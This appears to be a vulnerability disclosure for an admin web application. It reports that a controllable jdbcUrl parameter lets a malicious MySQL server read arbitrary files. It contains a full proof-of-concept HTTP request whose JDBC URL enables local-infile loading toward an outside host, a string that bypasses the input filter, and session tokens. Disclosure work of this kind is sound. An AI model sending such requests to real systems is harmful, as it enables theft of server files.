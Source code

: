 # 1. Basic Vulnerability Information

**Affected URL**:  http://localhost:8013/api/database/testConnect

**Affected Parameters:**  jdbcUrl

**Impact Scope:**  ALL

**Vulnerability description：**  Controllable MySQL parameters cause arbitrary file reading


# 2. Reproduction Steps
Start the MySQL malicious server first
![image](https://github.com/user-attachments/assets/a20ee820-c3f4-4d56-a3d1-7dcd3007a114)
Complete request packet,

``` html
POST /api/database/testConnect HTTP/1.1
Host: localhost:8013
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/134.0.0.0 Safari/537.36
Origin: http://localhost:8013
sec-ch-ua: "Chromium";v="134", "Not:A-Brand";v="24", "Google Chrome";v="134"
Content-Type: application/json
Accept: application/json, text/plain, */*
Sec-Fetch-Site: same-origin
Cookie: ELADMIN-TOEKN=Bearer%20eyJhbGciOiJIUzUxMiJ9.eyJ1aWQiOiJiNzcxOTc3YmI2ZTA0NGY0ODIxNWU5ZDI5YTFmODY4NyIsInVzZXJJZCI6MSwic3ViIjoiYWRtaW4ifQ.vvy9yXOpJzkWKz4G3K5UQ79kImSxcfgNcOK83z-uN_hvQpxBfMPGRLhKfdILZyt0ZJk-75-IKGGSzf2lWIcTmA; sidebarStatus=0
sec-ch-ua-mobile: ?0
Sec-Fetch-Dest: empty
Accept-Encoding: gzip, deflate, br, zstd
Sec-Fetch-Mode: cors
Authorization: Bearer eyJhbGciOiJIUzUxMiJ9.eyJ1aWQiOiJiNzcxOTc3YmI2ZTA0NGY0ODIxNWU5ZDI5YTFmODY4NyIsInVzZXJJZCI6MSwic3ViIjoiYWRtaW4ifQ.vvy9yXOpJzkWKz4G3K5UQ79kImSxcfgNcOK83z-uN_hvQpxBfMPGRLhKfdILZyt0ZJk-75-IKGGSzf2lWIcTmA
Referer: http://localhost:8013/mnt/maint/database
sec-ch-ua-platform: "Windows"
Accept-Language: zh-CN,zh;q=0.9
Content-Length: 272

{"id":"fc1d430a8b4c42f2818bdba1378eac9b","name":"11","jdbcUrl":"jdbc:mysql://192.168.3.34:3305/test?allowLoadLocalInfile = true","userName":"111222","pwd":"111222","createBy":"admin","createTime":"2025-04-05 14:43:25","updateBy":"admin","updateTime":"2025-04-05 14:43:25"}
```



# 3. Vulnerable Code
![image](https://github.com/user-attachments/assets/efbcb745-444c-48dc-b7bb-6e9e8017ac81)

Keep following up until here


![image](https://github.com/user-attachments/assets/e73db303-1776-47fb-93f9-104c11390d84)


There is security filtering,

![image](https://github.com/user-attachments/assets/6fca8e6c-8a6c-482b-a1d8-ce0e29ed4e44)

But regular matching is too strict and can be bypassed

`AllowLoadLocalInfinite=true    //will not be matched`
![image](https://github.com/user-attachments/assets/449952dd-1805-4859-97e0-226b34ec47f6)

Establishing a TCP link triggers a vulnerability,

![image](https://github.com/user-attachments/assets/4c4fc94b-6157-4860-ace5-246656efa239)



# 4. Remediation Suggestions
Improve filtration


